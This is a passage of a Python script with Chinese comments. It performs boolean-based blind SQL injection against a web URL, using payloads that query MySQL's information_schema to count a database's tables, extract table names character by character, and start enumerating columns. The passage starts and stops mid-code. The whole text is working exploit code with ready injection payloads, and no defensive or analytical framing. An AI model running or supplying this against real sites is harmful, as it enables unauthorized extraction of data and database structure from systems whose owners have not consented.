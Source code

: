 ```python
	#存放数据库表数量的变量
	DBTableCount = 0
	print("[-]开始获取{0}数据库表数量:".format(dbname))
	#获取数据库表数量的payload
	payload = "' and if((select count(*)table_name from information_schema.tables where table_schema='{0}')={1},1,0) %23"
	targetUrl = url + payload
	#开始遍历获取数据库表的数量
	for DBTableCount in range(1, 99):
		res = conn.get(targetUrl.format(dbname, DBTableCount))
		if flag in res.content.decode("utf-8"):
			print("[+]{0}数据库的表数量为:{1}".format(dbname, DBTableCount))
			break
	print("[-]开始获取{0}数据库的表".format(dbname))
	# 遍历表名时临时存放表名长度变量
	tableLen = 0
	# a表示当前正在获取表的索引
	for a in range(0,DBTableCount):
		print("[-]正在获取第{0}个表名".format(a+1))
		# 先获取当前表名的长度
		for tableLen in range(1, 99):
			payload = "' and if((select LENGTH(table_name) from information_schema.tables where table_schema='{0}' limit {1},1)={2},1,0) %23"
			targetUrl = url + payload
			res = conn.get(targetUrl.format(dbname, a, tableLen))
			if flag in res.content.decode("utf-8"):
				break
		# 开始获取表名
		# 临时存放当前表名的变量
		table = ""
		# b表示当前表名猜解的位置
		for b in range(1, tableLen+1):
			payload = "' and if(ascii(substr((select table_name from information_schema.tables where table_schema='{0}' limit {1},1),{2},1))={3},1,0) %23"
			targetUrl = url + payload
			# c表示33~127位ASCII中可显示字符
			for c in range(33, 128):
				res = conn.get(targetUrl.format(dbname, a, b, c))
				if flag in res.content.decode("utf-8"):
					table += chr(c)
					print(table)
					break
		#把获取到的名加入到DBTables
		DBTables.append(table)
		#清空table，用来继续获取下一个表名
		table = ""


# 获取数据库表的字段函数
def GetDBColumns(url, dbname, dbtable):
	global DBColumns
	# 存放字段数量的变量
	DBColumnCount = 0
	print("[-]开始获取{0}数据表的字段数:".format(dbtable))
	for DBColumnCount in range(99):
		payload = "' and if((select count(column_name) from information_schema.columns where table_schema='{0}' and table_name='{1}')={2},1,0) %23"
		targetUrl = url + payload
		res = conn.get(targetUrl.format(dbname, dbtable, DBColumnCount))
		if flag in res.content.decode("utf-8"):
			print("[-]{0}数据表的字段数为:{1}".format(dbtable, DBColumnCount))
			break
	# 开始获取字段的名称
```